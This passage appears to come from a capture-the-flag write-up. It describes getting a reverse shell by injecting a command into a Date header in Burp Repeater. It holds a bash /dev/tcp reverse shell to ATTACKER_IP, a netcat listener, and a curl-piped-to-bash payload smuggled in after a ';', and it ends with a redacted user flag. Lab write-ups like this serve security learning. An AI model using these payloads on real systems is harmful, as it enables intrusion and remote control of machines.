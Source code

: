 Specifically the idea is to create a payload for a reverse shell on our machine.
So let's start by setting up the listener with netcat
```bash
nc -lvnp 1234
```

Back on Burp
I started by testing the Date header with this payload: (You can use [this websire](https://www.revshells.com/) to generate reverse shells payloads )
```bash
sh -i >& /dev/tcp/ATTACKER_IP/1234 0>&1
```
Unfortunately it does not get executed... thinking about the first part of the challenge where we were calling for a file i tough about doing the same here, creating a file containing the shell and than setting up a python server, retrieve that file and execute the shell inside.

Create the shell file
```bash
nano shell.sh
```
paste inside the shell above

Now from the folder where is the shell file located
```bash
python3 -m http.server 8001
```

Now in the line that contains the Date header in burp repeater, we can put `;` after the actual data value to  close that statement and than add a call to our file, finally we can pipe it into bash to execute it
```bash
curl http://ATTACKER_IP:8001/shell.sh | bash
```

You should get in a few seconds a shell into your listener.

Now we can start to explore:
```bash
whoami
```
```bash
pwd
```

Let's go to this user home directory and see what's inside
```bash
cd ..
```
```bash
ls
```

Something look interesting, there is a text file called user:
```bash
cat user.txt
```
And we got our first flag:
--> REDACTED
<br/>
